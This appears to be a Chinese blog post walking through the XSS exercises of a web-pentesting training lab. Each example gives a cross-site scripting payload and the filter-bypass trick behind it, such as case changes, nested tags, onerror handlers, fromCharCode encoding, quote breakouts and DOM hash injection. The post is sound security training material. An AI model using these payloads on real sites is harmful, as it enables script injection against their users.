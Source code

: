 ```yaml
---
layout:     post
title:      "Web For Pentester - XSS Part Tips"
subtitle:   "Training exercises"
date:       2016-10-30
author:     "Urahara"
header-img: "img/Couchdb-RCE.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - Training exercises
---
```



### XSS Example 1
直接输出无任何过滤：
** name=\<script>alert(/XSS/)\</script> **
### XSS Example 2
过滤掉了\<script>标签，通过大小写进行绕过：
** name=\<Script>alert(/XSS/)\</Script> **
### XSS Example 3
过滤了\<script>标签（包括大写），但只过滤了一次，通过嵌套标签来绕过filter表达式：
**name=\<s\<Script>cript>alert(/XSS/)\</sc\</Script>ript>**
### XSS Example 4
使用\<script>标签测试直接显示error，替换\<img>、\<svg>等标签测试成功：
**name=\<img src=1 onerror="alert(/XSS/)">**
### XSS Example 5
alert被过滤，但prompt、confirm函数可使用；这里同样可以使用String.fromCharCode来绕过
**name=\<img src=1 onerror="confirm(/XSS/)">**
> 绕过magic_quotes_gpc
> magic_quotes_gpc=ON是php中的安全设置，开启后会把一些特殊字符进行轮换，比如'(单引号)转换为\'，"(双引号)转换为\" ，\转换为\\
> 比如：\<script>alert("xss");\</script>会转换为<script>alert(\"xss\");</script>,这样我们的xss就不生效了。
> 针对开启了magic_quotes_gpc的网站，我们可以通过javascript中的String.fromCharCode方法来绕过，我们可以把alert(/XSS/);转换为
> String.fromCharCode(97, 108, 101, 114, 116, 40, 47, 88, 83, 83, 47, 41)那么我们的XSS语句就变成了
> **\<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)\</script>** 
> String.fromCharCode()是javascript中的字符串方法，用来把ASCII转换为字符串，在harkbar中的XSS功能中有这个功能可直接使用
### XSS Example 6
F12查看元素，发现输出在script标签中 *$a= "hacker";* ，那么直接闭合双引号就好
**name=XSS";alert($a);//**
### XSS Example 7
通过Example 6的方法发现双引号被HTML编码了，而且在$a=''处添加了单引号来申明变量内容，那么同样依照闭合的原则将双引号改为单引号即可
**name=XSS';alert($a);//**
### XSS Example 8
查询功能，将查询内容反馈至页面，那么也就是存储型XSS，使用\<script>标签进行测试，通过查看源码发现<>尖括号被HTML编码，一般来说XSS漏洞修复若将尖括号进行编码后输出可视为安全的，但发现这里的form表单里的url可为任意构造，尝试访问如下带有payload的url成功
**/xss/example8.php/" onmouseover="alert(1)**
### XSS Example 9
同样审查元素，发现这里是一个很经典的DOM-Based XSS，使用了location.hash.substring(1)，那么直接构造
**/xss/example9.php#<script>alert(/XSS/)</script>**
